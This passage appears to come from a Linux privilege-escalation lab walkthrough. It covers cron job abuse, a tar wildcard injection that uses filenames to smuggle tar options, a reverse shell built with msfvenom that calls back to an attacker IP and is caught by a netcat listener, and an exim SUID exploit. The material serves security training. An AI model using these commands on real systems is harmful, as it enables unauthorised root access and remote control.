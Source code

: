 Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```
## Task10: Cron Jobs - Wildcards

**Here what we will do is to take adv. of use of wildcards- actually we will make such filename which are similar to
the `flag command name` for `tar` command. And tar will think those filename as flag names but actually NOT ;)**

View the contents of the other cron job script:
```
cat /usr/local/bin/compress.sh
```
_Note that the tar command is being run with a wildcard (*) in your home directory._

Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/).

Use msfvenom on your Kali box to generate a reverse shell ELF binary.
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.112.253 LPORT=4444 -f elf -o shell.elf
```
Transfer the shell.elf file to /home/user/ on the Debian VM and make it executable

Create these two files in /home/user:
```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.
```
nc -nvlp 4444
```
## Task11: SUID / SGID Executables - Known Exploits

Find all the SUID/SGID executables on the Debian VM:
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. Exploit-DB, Google, and GitHub are good places to search!

Run the exploit script to gain a root shell:
```
/home/user/tools/suid/exim/cve-2016-1531.sh
```
## Task12: SUID / SGID Executables - Shared Object Injection:
